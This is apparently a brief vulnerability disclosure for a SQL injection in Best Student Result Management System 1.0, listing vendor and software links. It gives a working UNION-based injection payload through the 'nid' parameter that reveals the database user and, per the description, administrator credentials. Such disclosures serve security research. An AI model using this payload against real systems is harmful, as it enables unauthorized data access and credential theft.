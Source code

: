 #### Title: Best Student Result Management System 1.0 SQLi
#### Author: toyydsBT123
#### Date: 15.09.2022
#### Vendor: https://www.sourcecodester.com/users/mayurik
#### Software: https://www.sourcecodester.com/php/15653/best-student-result-management-system-project-source-code-php-and-mysql-free-download
#### Version: 1.0
#### Reference: https://github.com/toyydsBT123/One_of_my_take_on_SourceCodester/blob/main/Best-Student-Result-Management-System_1.0.poc.md

#### Description:
### The joint query injects the selected item into the query, and can obtain system information and administrator account password. The SQL injection vulnerability on this page severely compromises the security, confidentiality of the application by exposing the application to administrator level information compromise.

# Status: CRITICAL

### [+] Payloads:

``` 
GET
?nid=2' union all select null,user(),null,null-- -
```

## Proof and Exploit:
code![image](https://github.com/toyydsBT123/One_of_my_take_on_SourceCodester/blob/main/1.png)
Firefox browser ![image](https://github.com/toyydsBT123/One_of_my_take_on_SourceCodester/blob/main/2.png)
